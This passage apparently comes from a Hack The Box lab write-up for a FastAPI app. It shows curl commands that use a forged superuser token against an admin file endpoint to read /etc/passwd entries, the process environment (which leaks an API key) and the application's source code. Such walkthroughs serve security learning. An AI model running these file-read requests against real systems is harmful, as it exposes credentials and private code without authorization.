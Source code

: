 ```bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
htb:x:1000:1000:htb:/home/htb:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
```

`/proc/self/environ` indicates the application is being ran from `/home/htb`. It also indicates the application's module object is `app.main:app`. This indicates the application's entrypoint is likely in `/home/htb/app/main.py`.

```bash
$ filename=$(echo -n '/proc/self/environ' | base64 -w 0); curl -s -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjYyMjU3NjgxLCJpYXQiOjE2NjE1NjY0ODEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiOGMyODk2MDMtN2JhNS00ZGNjLTlmN2ItNTBjN2EyNDg5ODRiIn0.PI_NGiM1QT17mdkAG9m0dJFpPp5tTAuBgAxnzG1dNGk' http://10.129.227.139/api/v1/admin/file/$filename
{"file":"USER=htb\u0000HOME=/home/htb\u0000OLDPWD=/\u0000PORT=80\u0000LOGNAME=htb\u0000JOURNAL_STREAM=9:18105\u0000APP_MODULE=app.main:app\u0000PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000INVOCATION_ID=5ed1791a3db949e2bca854e432a03ba8\u0000LANG=C.UTF-8\u0000API_KEY=68b329da9893e34099c7d8ad5cb9c940\u0000HOST=0.0.0.0\u0000PWD=/home/htb\u0000"} 
```

Iterate through `/home/htb/app/main.py` and its imports to leak the source code of the administrative endpoints themselves.

```bash
$ filename=$(echo -n '/home/htb/app/main.py' | base64 -w 0); curl -s -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjYyMjU3NjgxLCJpYXQiOjE2NjE1NjY0ODEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiOGMyODk2MDMtN2JhNS00ZGNjLTlmN2ItNTBjN2EyNDg5ODRiIn0.PI_NGiM1QT17mdkAG9m0dJFpPp5tTAuBgAxnzG1dNGk' http://10.129.227.139/api/v1/admin/file/$filename | jq -r '.file'
import asyncio
import os

with open('pid','w') as f:
    f.write( str(os.getpid())  )

from fastapi import FastAPI, APIRouter, Query, HTTPException, Request, Depends
from fastapi_contrib.common.responses import UJSONResponse
from fastapi import FastAPI, Depends, HTTPException, status
from fastapi.security import HTTPBasic, HTTPBasicCredentials
from fastapi.openapi.docs import get_swagger_ui_html
from fastapi.openapi.utils import get_openapi



from typing import Optional, Any
from pathlib import Path
from sqlalchemy.orm import Session



from app.schemas.user import User
from app.api.v1.api import api_router
from app.core.config import settings

from app.api import deps
from app import crud



app = FastAPI(title="UHC API Quals", openapi_url=None, docs_url=None, redoc_url=None)
root_router = APIRouter(default_response_class=UJSONResponse)



```